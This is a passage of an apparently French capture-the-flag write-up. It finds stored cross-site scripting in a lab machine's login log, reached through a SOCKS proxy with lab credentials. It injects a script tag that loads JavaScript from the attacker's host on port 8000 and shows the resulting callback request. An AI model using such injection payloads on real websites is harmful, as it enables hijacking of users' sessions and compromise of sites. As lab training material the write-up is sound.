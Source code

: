 ```plain
| ssl-cert: Subject: commonName=*.vm/organizationName=Docker Boilerplate
| Not valid before: 2015-05-04T17:14:40
|_Not valid after:  2025-05-01T17:14:40
```

J'ai eu le nez fin (ou plutôt la sale habitude) en regardant le code source de la page et les headers HTTP via cURL :  

```bash
$ curl --proxy-user Prime:tinkerbell1 -x socks5://192.168.56.9:1080/ -D- http://192.168.1.124/
```

En effet dans le code HTML retourné on peut voir des logs d'authentifications essayées sur la page de login :  

```html
<tr><td class='success'>Login</td><td>2021-12-09 12:41:22</td> <td>192.168.1.212</td> <td>user</td></tr>
<tr><td class='fail' >Failed!</td><td>2021-12-09 12:41:50</td> <td>192.168.1.99</td> <td>Prime</td></tr>
<tr><td class='success'>Login</td><td>2021-12-09 12:42:33</td> <td>192.168.1.212</td> <td>user</td></tr>
```

Ce que l'on aurait pas remarqué avec un navigateur car une redirection HTTP a lieu en même temps (entête *Location: login.php*).  

Si j'essaye de me connecter avec *test* entouré de la balise HTML *em* je vois dans les logs que l'injection du code HTML a fonctionné. On est donc dans un cas de stored XSS :  

```html
<tr><td class='fail' >Failed!</td><td>2021-12-09 12:51:27</td> <td>192.168.1.99</td> <td><em>test</em></td></tr>
```

Et on est visiblement sur la bonne voie car un indice du challenge mentionne [une vulnérabilité similaire](https://www.exploit-db.com/exploits/39171).  

J'ai donc passé le code suivant en nom d'utilisateur et attendu de voir si j'avais un retour sur le port 8000 :  

```html
<script src='//192.168.56.1:8000/index.js'></script>
```

Effectivement ça tape à la porte :  

```plain
GET /index.js HTTP/1.1
Accept: */*
Referer: http://192.168.1.124/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: 192.168.56.1:8000
```
